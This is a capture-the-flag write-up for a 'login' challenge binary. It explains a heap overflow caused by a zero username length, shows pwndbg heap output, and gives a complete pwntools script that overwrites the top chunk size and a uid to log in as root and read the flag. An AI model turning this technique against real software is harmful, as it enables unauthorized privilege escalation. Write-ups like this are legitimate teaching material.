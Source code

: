 # Login

## Challenge

[login](login)

## Solution

The binary includes the [source code](login.c), so we can easily analyze it. The code suffers from a [heap overflow](https://en.wikipedia.org/wiki/Heap_overflow), when the username legnth is 0, we can put in an arbitrary size for the user length that exceeds the 0x20 bytes that are reserved for the chunk.

```
pwndbg> r
Starting program: /root/workspace/login 
1. Add user
2. Login
> 1
Username length: 0
Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
1. Add user
2. Login

pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555559000
Size: 0x291

Allocated chunk | PREV_INUSE
Addr: 0x555555559290
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x5555555592b0
Size: 0x4141414141414141
```

Since libc was not provided, the authors didn't intend any advanced heap exploit technique. 
In the [source code](login.c), we see that the ``uid`` is not assigned if it is previously set.

```c

    if(!user->uid) {
        user->uid = curr_user_id;
    }
```

So we can just overwrite the ``top_chunk_sz_field`` to a valid top chunk size field. Since the heap is usually allocated with ``0x21000``, we will just subtract what we have already allocated and rewrite with ``0x20d51``. The only thing we need to do is overwrite the UID of the next chunk to be allocated from the top chunk (since free hasn't been called and all the bins are empty.) So our working exploit should be something like

```python3
pad = cyclic(20)
top_chunk_sz_field = p64(0x20d51)
root_uid  = p32(0x1337)
root_user = b'root'

add_user(0, pad+top_chunk_sz_field+root_uid)
add_user(9, root_user)
login(root_user)
```

The entire exploit follows below:

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    else:
        return process(e.path)

def add_user(length,username):
    log.info("Adding User(%i,%s)" %(length,username))
    p.recvuntil(b'>')
    p.sendline(b'1')
    p.recvuntil(b'length:')
    p.sendline(b'%i' %length)
    p.recvuntil(b'Username:')
    p.sendline(username)

def login(username):
    log.info("Login User(%s)" %username)
    p.sendline(b'2')
    p.sendline(username)
    log.info("%s" %p.recvline())

p = start()

pad = cyclic(20)
top_chunk_sz_field = p64(0x20d51)
root_uid  = p32(0x1337)
root_user = b'root'

add_user(0, pad+top_chunk_sz_field+root_uid)
add_user(9, root_user)
login(root_user)

p.sendline(b'cat flag.txt') 
p.interactive()```
```



